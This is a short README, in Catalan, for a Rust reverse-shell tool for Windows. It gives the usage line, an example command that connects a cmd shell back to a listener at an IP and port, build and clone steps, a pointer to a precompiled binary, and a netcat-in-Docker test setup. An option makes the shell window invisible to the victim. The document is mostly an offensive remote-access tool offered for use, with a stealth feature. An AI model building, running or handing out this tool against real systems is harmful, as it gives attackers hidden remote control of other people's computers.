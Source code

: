 ## rrshw - Rust Reverse Shell for Windows 
Que és una Reverse Shell? (https://en.wikipedia.org/wiki/Shell_shoveling)[https://en.wikipedia.org/wiki/Shell_shoveling].

Utilització: **rrshw.exe [ip] [port] [invisible(y/n=default)]**

Exemple: **rrshw.exe 127.0.0.1 4444 y**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshw.git

cd rrshw

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**

Dins la carpeta Netcat he deixat el nesessari per engegar un netcat dins un contanier docker per tal de simular un servidor remot. Seguin les pases del document Help.txt i posteriorment des d'una consola windows executem l'exemple **rrshw.exe 127.0.0.1 4444 y**, veurem com en el contenidor apareix una consola cmd de windows. Proveu també sens el paràmetre **'y'** per entendre la seva utilitat.

